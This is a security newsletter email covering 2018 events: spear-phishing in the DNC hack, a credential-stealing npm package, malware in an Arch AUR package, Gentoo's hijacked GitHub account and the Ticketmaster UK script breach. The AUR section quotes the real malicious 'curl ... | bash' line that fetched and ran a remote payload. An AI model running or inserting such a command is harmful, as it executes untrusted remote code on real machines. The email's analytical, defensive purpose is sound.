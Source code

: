 ```yaml
---
layout: email
title: The Mueller Indictments and Supply-chain attacks: Node, Arch, Gentoo, and Ticketmaster UK
---
```


Good morning.

A longer email today, as a final farewell before I head off on a few weeks of vacation.

My [last email](/Email-update-ASD-becomes-statutory-authority-ISM-gets-update/) contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

As a follow up to that story, [this article](https://warontherocks.com/2018/07/fish-out-of-water-how-the-military-is-an-impossible-place-for-hackers-and-what-to-do-about-it/) has been making the rounds on Twitter. It's very well put together, and covers many of the same issues ASD has with recruitment and retention of good security people.

### The Mueller Indictments

One of the major stories of the week was the [indictment of 12 members of Russian Intelligence](https://lawfareblog.com/russia-indictment-20-what-make-muellers-hacking-indictment) for the hack of the Democratic National Committee in 2016. The indictments themselves are quite interesting, and the forensic work performed by Crowdstrike (and presumably, U.S. intelligence agencies) is incredibly impressive.

Tangentially related was this [Twitter thread](https://twitter.com/pwnallthethings/status/1018164868640329728) by Matt Tait ([@pwnallthethings](https://twitter.com/pwnallthethings)):

[![Modern spearphishing - 1](/images/matt-tait-phishing-1.PNG)](https://twitter.com/pwnallthethings/status/1018164868640329728)

It's worth reading the whole thread, especially the two tweets containing screenshots of the actual phishing email sent to John Podesta, as well as the fake website set up to steal his credentials. They're quite eye-opening if you've never seen a sophisticated phishing campaign.

As Tait says, modern spear-phishing is extremely effective, and that effectiveness is simply a factor of how much effort the attacker puts into it (and making a convincing phishing email isn't technically difficult). The reality is that if you're targeted by anyone competent, they're going to get your password. 

The trick is to secure yourself in a way that you're not completely screwed the moment someone else steals one of your passwords: mitigations like unique passwords and multi-factor authentication.

### Malicious module published in NPM

It's been a crazy couple of weeks for supply-chain attacks.

We'll start with the most recent, from [Bleeping Computer](https://bleepingcomputer.com/news/security/compromised-javascript-package-caught-stealing-npm-credentials/):

>A hacker has gained access to a developer's npm account and injected malicious code into a popular JavaScript library, code that was designed to steal the npm credentials of users who utilize the poisoned package inside their projects.
>
>The JavaScript (npm) package that got compromised is called eslint-scope, a sub-module of the more famous ESLint, a JavaScript code analysis toolkit.

This is precisely the sort of attack outlined by David Gilbertson in his [Medium post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5) back in January, which I mentioned in a [previous email](/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/). Gilbertson's post was a bit of a wake-up-call to many web developers at the time, and it now seems prescient.

### Malicious package published in Arch User Repository

Two days before the NPM story, a very similar thing happened to Arch Linux. From [Bleeping Computer](https://bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/) again:

>Malware has been discovered in at least three Arch Linux packages available on AUR (Arch User Repository), the official Arch Linux repository of user-submitted packages. [...]
>
>The incident happened because AUR allows anyone to take over "orphaned" repositories that have been abandoned by their original authors.
>
>On Saturday, a user going by the pseudonym of "xeactor" took over one such orphaned package named "acroread" that allows Arch Linux users to view PDF files.
>
>According to a Git commit to the package's source code, xeactor added malicious code that would download a file named "~x" from ptpb.pw, a lightweight site mimicking Pastebin that allows users to share small pieces of texts.

The malicious commit is [here](https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc). At the bottom of the page, you can see highlighted in green the following line:

```curl -s https://ptpb.pw/~x|bash -&```

This command downloads another set of instructions and executes them, which ends up installing a scheduled service and collecting data about each compromised system.

Fortunately, the malicious change was found and removed before more damage was done.

### Gentoo's GitHub account hacked

From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

This is a classic example of where a supply-chain attack is effective. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker, rather than attacking Ticketmaster directly, instead compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up. They included Inbenta's script on a webpage it had no business being, and they're now learning a painful fact about security breaches: even if the attack vector was someone else's product, your customers will still blame you. You can outsource the work, but you can't outsource the blame.